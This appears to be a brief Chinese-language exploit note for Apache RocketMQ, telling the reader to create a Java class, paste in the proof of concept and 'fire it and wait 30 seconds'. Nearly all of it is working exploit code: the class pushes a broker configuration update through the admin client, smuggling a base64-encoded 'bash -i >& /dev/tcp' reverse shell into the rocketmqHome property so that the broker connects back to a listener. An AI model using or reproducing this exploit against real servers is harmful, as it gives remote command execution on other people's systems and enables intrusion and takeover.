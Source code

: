 新建一个 Java 类 把 Poc 放进去

```bash
import org.apache.rocketmq.tools.admin.DefaultMQAdminExt;
import java.util.Base64;
import java.util.Properties;
public class Main {
    private static String getCmd(String ip, String port) {
        String cmd = "bash -i >& /dev/tcp/" + ip + "/" + port + " 0>&1";
        String cmdBase = Base64.getEncoder().encodeToString(cmd.getBytes());
        return "-c $@|sh . echo echo \"" + cmdBase + "\"|base64 -d|bash -i;";
    }
    public static void main(String[] args) throws Exception {
        String targetHost = "192.168.0.106";
        String targetPort = "10911";
        String shellHost = "192.168.0.106";
        String shellPort = "12345";
        String targetAddr = String.format("%s:%s",targetHost,targetPort);
        Properties props = new Properties();
        props.setProperty("rocketmqHome", getCmd(shellHost,shellPort));
        props.setProperty("filterServerNums", "1");
        DefaultMQAdminExt admin = new DefaultMQAdminExt();
        admin.setNamesrvAddr("0.0.0.0:12345");
        admin.start();
        admin.updateBrokerConfig(targetAddr, props);
        Properties brokerConfig = admin.getBrokerConfig(targetAddr);
        System.out.println(brokerConfig.getProperty("rocketmqHome"));
        System.out.println(brokerConfig.getProperty("filterServerNums"));
        admin.shutdown();
    }
}
```

打过去等 30 秒

[![](assets/1708677570-e3cea3c6cd4201c739e3b42490354655.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221190234924.png)
